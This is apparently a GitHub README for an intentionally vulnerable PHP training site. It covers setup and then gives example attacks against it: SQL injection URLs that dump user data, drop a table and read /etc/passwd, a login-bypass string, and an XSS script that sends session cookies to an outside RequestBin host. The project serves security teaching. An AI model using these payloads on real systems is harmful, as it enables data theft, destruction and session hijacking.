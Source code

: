 # Hack This
A collection of common web programming mistakes.

![Screenshot](screenshot_small.png)

This website, when set up and configured, contains a number of vulnerabilities that can be exploited, including:

* SQL Injection
* XSS (Cross-Site Scripting)
* Session Hijacking

## Prerequisites
You'll need to have a web server installed and configured with PHP for this to work. I really recommend [XAMPP](https://www.apachefriends.org/), especially for Windows users. Once you've done that you can proceed.

You'll also need [Node.js](https://nodejs.org/en/) and [npm](https://www.npmjs.com/) installed and working.

## Building
Clone the project down and open the folder in your favourite editor. It's a JetBrains PhpStorm project but you can use whichever paid/free software takes your fancy.

First, install the npm packages necessary to build and run the website. Run the following in your terminal in the project root directory:

```
npm install
```

This will install [Bower](https://bower.io/) which will allow you to install the assets the website requires (Bootstrap, jQuery etc.) using the command:

```
bower install
```

Gulp will also have been installed. This will compile the [Less](http://lesscss.org/) and [CoffeeScript](http://coffeescript.org/) into CSS and JS ready for production. Do this using the command:

```
gulp
```

This command will need running again every time you make a change to a Less file. If you're working on them, run `gulp watch` in a terminal to watch for file changes and compile accordingly.

## Setup
To set everything up, you'll need to: 

* Import the file `db.sql` into your database
* Modify the file `db_configuration.php` to correspond to your database
* Access the site and get hacking

## Examples
Examples of vulnerabilities in this web application include:

### SQL Injection
In an SQL injection attack, malicious SQL statements are inserted into an entry field for execution (usually in a data-driven web application). 

* Get information for all users: 
    - `http://localhost/customers.php?username=leocadio'%20or%20'1'='1`
    - `http://localhost/customers.php?username=leocadio'%20or%20''='`
    - `http://localhost/customers.php?id=1%20or%201=1`
* Drop (destroy) invoices table: 
    - `http://localhost/customers.php?id=1;drop%20table%20invoices`
* Dump the password hash file from the server: 
    - Unix: `http://localhost/customers.php?username='%20UNION%20SELECT%201,1,1,1,LOAD_FILE('/etc/passwd'),'1`
* Dump several things at once (oh boy): 
    - `http://localhost/customers.php?username='%20UNION%20SELECT%201,2,3,4,5,'hello%20world`

### Bypass Login (SQL Injection)
It's possible to bypass login completely (logging in as whoever you like) by adding an always-true condition to the password check:

```
foo' or '1'='1
```

### Session Hijacking (XSS)
Using a service like [RequestBin](https://requestbin.fullcontact.com/) it's possible to hijack user sessions by capturing their session cookie. Try sending a message to a user consisting of the following code (with `{{ bin_id }}` substituted out for your RequestBin bin ID).

```html
<script>
    var xmlHttp = new XMLHttpRequest();
    xmlHttp.open("GET", "http://requestbin.fullcontact.com/{{ bin_id }}?c=" + document.cookie, false);
    xmlHttp.send(null);
</script>
```

## Warnings
This site is intentionally left vulnerable to common exploits. Don't host it on the same server as any production sites, only ever deploy it on a machine that you wouldn't mind bricking (I recommend a disposable VM).

## Acknowledgements
This is heavily based on the [php-sploits](https://github.com/jadz/php-sploits) repository by [Jared Mooring](https://github.com/jadz) and [Allan Shone](https://github.com/CerealBoy). Find the slides for their [SydPHP](https://github.com/sydphp) talk [here](http://www.slideshare.net/CerealBoy/sydphp-security).

The homepage template is a highly modified version of the [Blackrock Digital Freelancer](https://github.com/BlackrockDigital/startbootstrap-freelancer) template. Wonderful, free, MIT licensed template. Check it out if you're in the market for such a thing.
